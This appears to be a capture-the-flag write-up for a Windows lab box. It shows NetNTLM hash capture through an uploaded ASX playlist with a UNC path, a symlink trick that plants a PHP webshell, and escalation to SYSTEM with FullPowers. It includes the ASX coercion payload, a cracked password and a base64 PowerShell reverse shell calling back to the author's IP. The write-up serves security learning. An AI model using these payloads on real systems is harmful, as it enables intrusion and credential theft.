<p style="text-align:center">
  
</p>

<p>
  
  
  
</p>

> **TL;DR** - A Windows box where a video-upload feature lets us smuggle an `.asx` playlist pointing at a UNC path. When the server processes it, it authenticates to our SMB listener and leaks `enox`'s NetNTLM hash, which we crack and reuse over SSH for the foothold. For root, the upload handler stores files in a predictable per-user directory, so we abuse a symlink to redirect our `shell.php` into the XAMPP webroot, get a webshell, drop to a reverse shell, and finally use FullPowers to recover the service account's full privilege set and land as `nt authority\system`.

---

## Recon

I started with a full nmap scan.

```bash
nmap -sV -sC -p- -oA nmap/media 10.129.234.67
```



Some interesting ports are open. I started with port 80 to see what the web app looks like, it's a site for a developer company selling their work.


Scrolling down, there's a hiring section with a file upload where you can submit a video.


This looks like the way in, but before digging into it I ran a quick gobuster scan to check for interesting directories.



From Wappalyzer I already knew the server runs PHP, so I was hoping to find an `/uploads` endpoint, but that's not where the uploaded files land.

---

## Foothold - LLMNR/SMB coercion via ASX

After poking around, I thought: what if the server (or someone) actually opens the file I upload? If I can hand it a media playlist pointing at a UNC path, I can coerce it into authenticating to my SMB share and capture the credentials.

An `.asx` is a Windows Media playlist that just points to the real media with a `HREF`. If that `HREF` is a UNC path (`\\my-ip\share\...`), Windows will try to reach it over SMB, and in doing so it sends the account's NetNTLM hash. Catch that with Responder and you've got a crackable hash, no code execution needed.

So I crafted this payload:

```xml
<ASX version="3.0">
  <ENTRY>
    <REF HREF="file://\\10.10.16.100\share\intro.mp3"/>
  </ENTRY>
</ASX>
```

Uploaded it, fired up Responder, and caught the NetNTLM hash for the `enox` user.



Cracked it with hashcat:



```
enox : 1234virus@
```

SSH is open, so I tried those creds there.



And we're in as `enox`, with `user.txt`.



---

## Privilege Escalation - symlink abuse → FullPowers

Digging around the machine, I found how the upload handler works: whenever you upload a file, it stores it in a directory derived from the user, the email, and the file name. That predictability is the bug.

Because we control (and can predict) the destination directory for our own uploads, we can delete it and replace it with a symlink that points somewhere we normally couldn't write, like the XAMPP webroot. The next time we upload the same file with the same user/email, it follows the symlink and lands in `C:\xampp\htdocs` instead of the upload sandbox. That turns an upload into arbitrary file write inside the webroot, i.e. a webshell.

I uploaded `shell.php`, removed the created directory and its contents, and created a symlink from that path to `C:\xampp\htdocs`.



Then I re-uploaded the same `shell.php` with the same username and email. This time, instead of going to `C:\Windows\Tasks\Uploads`, it also lands in `C:\xampp\htdocs`, where the webserver serves it from. I confirmed the webshell with:

```
http://10.129.234.67/shell.php?cmd=whoami
```



It's there. From here I used [RevShells](https://www.revshells.com/) to generate a base64-encoded PowerShell reverse shell and called it through the webshell.



We're in. Running `whoami /priv`, I can see this account has some privileges, but not the ones I'd want for a straightforward escalation.



Service accounts often run with a stripped-down privilege set, even though they're entitled to more (like `SeImpersonatePrivilege` / `SeAssignPrimaryTokenPrivilege`). [FullPowers](https://github.com/itm4n/FullPowers/releases/) recovers the default, full privilege set for the account and spawns a new process with it, handing back the privileges the token should have had.

I transferred `FullPowers.exe` to the machine, generated another base64 PowerShell reverse shell with RevShells, and passed it as the command to run with the recovered privileges:

```powershell
.\FullPowers.exe -c "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AMQAwADAAIgAsADkAOQA5ADkAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA" -z
```

With a listener on my side, I caught the shell.



And now we're `nt authority\system`. Moving to the Desktop, there's `root.txt`.



---

## Conclusion

Media is a nice mix of a client-side coercion trick and a file-handling bug. The foothold was my favourite part, abusing a "harmless" video upload to smuggle an ASX playlist and pull a NetNTLM hash out of the server over SMB is a clean, realistic attack, and a good reminder that file uploads are dangerous even when you can't execute what you upload.

The privesc leaned on the upload handler trusting a predictable path: redirecting it with a symlink into the webroot turned an upload into a webshell, and from there FullPowers restored the service account's privileges to finish the job. The takeaway: predictable, user-controlled file paths plus symlinks are a recurring arbitrary-write primitive, and service tokens are often one FullPowers away from being far more powerful than they look.

---

## Kill chain summary

| Phase    | Vector                                              | Result                      |
| -------- | --------------------------------------------------- | --------------------------- |
| Recon    | nmap + gobuster                                     | Web upload surface          |
| Foothold | ASX upload → LLMNR/SMB coercion → Responder         | `enox` NetNTLM hash         |
| Crack    | hashcat                                             | `enox : 1234virus@`         |
| User     | SSH as `enox`                                       | `enox` - user.txt           |
| RCE      | Upload handler symlink → webshell in `C:\xampp\htdocs` | Shell as service account |
| Root     | FullPowers (restore privilege set)                  | `nt authority\system` - root.txt |

## References

- FullPowers - https://github.com/itm4n/FullPowers
- Responder - https://github.com/lgandx/Responder
- RevShells - https://www.revshells.com/